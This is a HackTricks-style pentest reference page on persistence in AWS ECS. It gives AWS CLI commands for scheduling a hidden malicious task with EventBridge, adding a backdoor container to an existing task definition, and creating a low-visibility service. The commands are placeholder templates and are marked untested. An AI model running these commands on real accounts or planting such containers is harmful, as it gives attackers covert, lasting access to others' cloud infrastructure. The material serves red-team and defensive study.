 # AWS - ECS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## ECS

For more information check:

{{#ref}}
../aws-services/aws-ecs-enum.md
{{#endref}}

### Hidden Periodic ECS Task

> [!NOTE]
> TODO: Test

An attacker can create a hidden periodic ECS task using Amazon EventBridge to **schedule the execution of a malicious task periodically**. This task can perform reconnaissance, exfiltrate data, or maintain persistence in the AWS account.

```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
  {
    "name": "malicious-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
  {
    "Id": "malicious-ecs-task-target",
    "Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
    "RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
    "EcsParameters": {
      "TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
      "TaskCount": 1
    }
  }
]'
```

### Backdoor Container in Existing ECS Task Definition

> [!NOTE]
> TODO: Test

An attacker can add a **stealthy backdoor container** in an existing ECS task definition that runs alongside legitimate containers. The backdoor container can be used for persistence and performing malicious activities.

```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
  {
    "name": "legitimate-container",
    "image": "legitimate-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  },
  {
    "name": "backdoor-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": false
  }
]'
```

### Undocumented ECS Service

> [!NOTE]
> TODO: Test

An attacker can create an **undocumented ECS service** that runs a malicious task. By setting the desired number of tasks to a minimum and disabling logging, it becomes harder for administrators to notice the malicious service.

```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
  {
    "name": "malicious-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```

{{#include ../../../banners/hacktricks-training.md}}






